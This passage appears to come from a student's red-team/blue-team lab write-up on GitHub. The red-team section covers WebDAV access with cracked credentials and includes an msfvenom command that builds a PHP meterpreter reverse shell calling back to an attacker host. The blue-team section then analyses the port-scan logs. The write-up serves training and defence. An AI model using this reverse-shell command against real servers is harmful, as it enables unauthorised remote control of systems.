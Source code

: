 	3. Screenshots and Command


		- Remote access to the server with the cracked credentials
  
![WebDAV Login ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/9.WebDAV(login).png)

![WebDAV access ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/10WebDav(access).png)

		- Creating a reverse shell with msfvenom to remotely execute

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >>~/Desktop/shell.php`
  
![msfvenom reverse shell script creation](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/11.msfVenom.png)

		- Click the shell and drag it into the directory.

![upload reverse shell script ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/12.UploadShell.png)

		- Set up a remote computer to listen for the shell to be executed
  
![msfconsole start ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/13.msfconsole(start).png)

![msfconsole setup ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/14.msfconsolesetup.png)

		- Remote execution of the shell with a hacker waiting on the other side by clicking "shell.php" from within the WebDAV directory
  
![risky click shell ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/15.RiskyClickReverseShell.png)

		-Meterpreter session was initiated with that last click

![hackerscomp Meterpreter Connection](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/16.MeterpreterSession.png)

		- The hacker can easily do anything they want with the server at that point

![progression of the shell ss](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/17.Progressionofshell.png)




### 3. Blue Team: Log Analysis and Attack Characterization

#### Analysis: Identifying the Port Scan
	
	1.What time did the Port scan occur?
		On May 13th 2022 between 3:00am and 3:30am
		It appears there were 2 port scans before the attack.
			One at approximately 3:05am
			One at approximately 3:15am
		
		`NOT source.port: 80 and NOT source.port:443`

![source port](https://github.com/BQcybersec/-UofM-VIRT-CYBER-12-2021/blob/main/Project%202%20%20%20RedTeam_vs_BlueTeam/Images/18.SourcePort.png)
	
	It appears the vast majority of packets were from the IP address 192.168.1.90 (Kali)
